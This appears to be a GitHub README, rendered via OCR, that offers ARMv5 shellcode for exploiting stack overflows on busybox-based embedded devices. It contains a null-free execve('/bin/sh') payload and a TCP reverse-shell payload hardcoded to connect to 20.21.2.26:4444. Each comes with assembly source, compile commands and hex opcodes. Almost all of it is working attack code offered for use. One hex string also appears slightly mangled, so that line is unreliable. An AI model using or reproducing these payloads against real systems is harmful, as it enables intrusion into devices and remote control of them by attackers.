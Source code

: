# Armv5_shellcode

>Background:
> 	 Since the default armv7 syntax of the shellcode generated in pwntools cannot be executed under the armv5 instruction set chip, the following shellcode is written to facilitate the exploitation of vulnerabilities. This shellcode can be used by the armv5 test without null byte. This shellcode mainly operates on the stack and does not modify the code segment and data segment.
>Applicable scenarios:
>
>    	 1. The target applies to busybox
>    	 2. There are stack overflow or other vulnerabilities that can hijack program flow
>    	 3. Arrange this shellcode in memory



###### Applicable to busybox

```
/*
#execve("/bin/sh",["/bin/sh"],NULL)
#Date:2022-4-14
#Author:doudoudedi
#Text:F1C200s
*/
.section .text
.global _start

_start:
	.ARM
	mov r7,#0x68
	strb r7,[sp,#-0x15]
	mov r7,#0x73
	strb r7,[sp,#-0x16]
	mov r7,#0x2f
	strb r7,[sp,#-0x17]
	mov r7,#0x6e
	strb r7,[sp,#-0x18]
	mov r7,#0x69
	strb r7,[sp,#-0x19]
	mov r7,#0x62
	strb r7,[sp,#-0x1a]
	mov r7,#0x2f
	strb r7,[sp,#-0x1b]
	eor r3,r3,r3
	eor r2,r2,r2
	eor r4,r4,r4
	add r4,sp,#-0x1b
	add r3,pc,#1
	bx  r3
	.THUMB
	mov r0,r4
	push {r0,r1}
	mov r1,sp
	mov r2,#1
	sub r2,r2,#1
	mov r7,#0xb
	svc #1

/*
Compile and link with: 
# arm-linux-gnueabi-as -o shellcode.o shellcode.s
# arm-linux-gnueabi-ld -N shellcode.o -o shellcode
# arm-linux-gnueabi-objcopy -O binary --only-section=.text shellcode shellcode.text
shellcode_opcode:
"\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x03\x30\x23\xe0\x02\x20\x22\xe0\x04\x40\x24\xe0\x1b\x40\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x20\x1c\x03\xb4\x69\x46\x01\x22\x01\x3a\x0b\x27\x01\xdf\xc0\x46"
*/
```

##### Reverse Shell TCP(Armv5)

updating
```
/*
#reverse_ip=20.21.2.26,port=4444
#fd=socket();connect("20.21.2.26",4444);dup2(fd,0);dup2(fd,1);dup(fd,2);execve("/bin/sh",["/bin/sh"],NULL)
#Date:2022-4-14
#Author:doudoudedi
#Text:F1C200s

.section .text
.global _start

_start:
	.ARM
	eor r4,r4,r4
	mov r7,#0x14
	strb r7,[sp,#-0x28]
	mov r7,#0x15
	strb r7,[sp,#-0x27]
	mov r7,#0x2
	strb r7,[sp,#-0x26]
	mov r7,#0x1a
	strb r7,[sp,#-0x25]
	mov r7,#2
	strb r7,[sp,#-0x2c]
	strb r4,[sp,#-0x2b]
	mov r7,#0x11
	strb r7,[sp,#-0x2a]
	mov r7,#0x5c
	strb r7,[sp,#-0x29]
	strb r4,[sp,#-0x14]
	mov r7,#0x68
	strb r7,[sp,#-0x15]
	mov r7,#0x73
	strb r7,[sp,#-0x16]
	mov r7,#0x2f
	strb r7,[sp,#-0x17]
	mov r7,#0x6e
	strb r7,[sp,#-0x18]
	mov r7,#0x69
	strb r7,[sp,#-0x19]
	mov r7,#0x62
	strb r7,[sp,#-0x1a]
	mov r7,#0x2f
	strb r7,[sp,#-0x1b]
	add r4,sp,#-0x1b
	add r5,sp,#-0x2c
	add r3,pc,#1
	bx  r3
	.THUMB
	mov r0,#2
	mov r1,#1
	eor r2,r2,r2
	mov r7,#200
	add r7,r7,#81
	svc #1
	mov r6,r0
	mov r1,r5
	mov r2,#0x10
	add r7,r7,#2
	svc #1
	mov r0,r6
	eor r1,r1,r1
	mov r7,#63
	svc #1
	mov r0,r6
	add r1,r1,#1
	svc #1
	mov r0,r6
	add r1,r1,#1
	svc #1
	mov r0,r4
	eor r1,r1,r1
	eor r2,r2,r2
	push {r0,r1}
	mov r1,sp
	mov r7,#0xb
	svc #1
opcode:
shellcode="04\x40\x24\xe0\x14\x70\xa0\xe3\x28\x70\x4d\xe5\x15\x70\xa0\xe3\x27\x70\x4d\xe5\x02\x70\xa0\xe3\x26\x70\x4d\xe5\x1a\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x06\x1c\x29\x1c\x10\x22\x02\x37\x01\xdf\x30\x1c\x49\x40\x3f\x27\x01\xdf\x30\x1c\x01\x31\x01\xdf\x30\x1c\x01\x31\x01\xdf\x20\x1c\x49\x40\x52\x40\x03\xb4\x69\x46\x0b\x27\x01\xdf"
*/
```
